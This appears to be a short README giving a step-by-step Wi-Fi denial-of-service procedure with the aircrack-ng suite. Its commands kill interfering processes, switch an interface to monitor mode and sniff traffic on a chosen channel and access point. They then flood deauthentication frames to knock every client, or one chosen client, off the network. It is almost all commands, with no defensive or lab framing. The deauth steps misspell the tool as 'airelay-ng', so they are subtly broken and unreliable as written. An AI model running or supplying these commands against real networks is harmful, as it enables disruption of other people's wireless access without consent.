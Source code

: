 # Performing DoS Attack with AirCrack Toolkit

1.  Killing wireless interface blocking processes
```
airmon-ng check kill
```

2. Switching wireless interface into monitoring mode
```
airmon-ng start wlan0
```

3.  Sniffing wireless traffic on all channels
```
airodump-ng wlan0mon
```

4. Sniffing wireless traffic on selected channel (channel 1 in following example)
```
airodump-ng -c 1 wlan0mon
```

5. Sniffing wireless traffic on selected channel and selected AP MAC
```
airodump-ng -c 1 --bssid 1c:1d:86:b6:c4:e0 wlan0mon
```

6. Performing DoS attack to disconnect all clients connected to the provided Access Point (AP)
    - Run the following command in new terminal window in parallel with airodump-ng command
    ```
    airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 wlan0mon
    ```

7. Performing DoS attack to disconnect selected client connected to the provided Access Point (AP)
    - Run the following command in new terminal window in parallel with airodump-ng command
    ```
    airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 -c c2:f1:81:e6:77:f4 wlan0mon
    ```

